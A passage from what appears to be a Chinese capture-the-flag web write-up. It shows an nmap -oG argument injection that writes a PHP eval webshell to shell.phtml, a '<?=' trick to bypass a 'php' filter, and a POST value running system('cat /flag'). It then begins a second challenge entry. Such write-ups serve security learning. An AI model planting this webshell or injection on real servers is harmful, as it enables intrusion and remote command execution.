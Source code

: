 利用nmap的-oG参数将命令和结果写入一个一句话木马：

由于php被过滤所以需要用<?=来bypass

```
' <?= @eval($_POST[a]);?> -oG shell.phtml ' 
```

然后火狐传入post参数：

a=system(‘cat /flag’);

## 2017-赛客夏令营-Web-Uploadddd

首先利用后台泄露小字典fuzz一波，得到![](img/ff66d1ba2b765a5eb1f9cae0c696185c.png)
